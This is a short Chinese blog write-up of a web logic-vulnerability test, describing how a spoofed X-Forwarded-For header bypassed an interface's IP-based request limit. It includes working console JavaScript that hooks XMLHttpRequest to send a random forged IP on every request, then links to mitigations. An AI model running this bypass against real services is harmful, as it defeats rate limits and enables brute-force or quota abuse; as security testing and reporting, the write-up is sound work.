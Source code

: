 ```yaml
---
title: 一次X-Forwarded-For绕过ip限制
date: 2024-03-15 19:25:05
tags:
---
```

**作者：dabaisuv，原文链接：https://dabaisuv.github.io/2024/03/15/一次X-Forwarded-For绕过ip限制**
* 背景
  * 在进行一次web逻辑漏洞测试的时候，有个接口有请求次数限制。

* 测试过程
  * 逆向了js代码后，发现他没有其他可验证的手段，猜测是对ip的限制。
  * 利用yakit拦截一次请求，添加了X-Forwarded-For: 127.0.0.1。
  * 发现请求次数限制被绕过了。

* 批量利用
  * 经逆向发现他的请求用的是XMLHttpRequest。
  * 控制台执行如下代码，hook xhr的open函数，使每次请求随机X-Forwarded-For ip。
  
 ```javascript
function hookAjax() {
  var originalXHR = window.XMLHttpRequest;
  window.XMLHttpRequest = function() {
    var xhr = new originalXHR();
    var originalOpen = xhr.open;

    xhr.open = function(method, url, async, user, password) {
      originalOpen.apply(this, arguments);

      if (this.readyState === 1) {
        this.setRequestHeader('X-Forwarded-For', generateRandomIP());
      }
    };

    return xhr;
  };
  
  function generateRandomIP() {
    var ip = [];
    for (var i = 0; i < 4; i++) {
      ip.push(Math.floor(Math.random() * 256));
    }
    return ip.join('.');
  }
}
hookAjax();
```
  * 至此已绕过ip限制，定级高危。
  
* 解决方案
  * https://totaluptime.com/kb/prevent-x-forwarded-for-spoofing-or-manipulation/
  * https://xxgblog.com/2018/10/12/x-forwarded-for-header-trick/#%E5%A6%82%E4%BD%95%E9%98%B2%E8%8C%83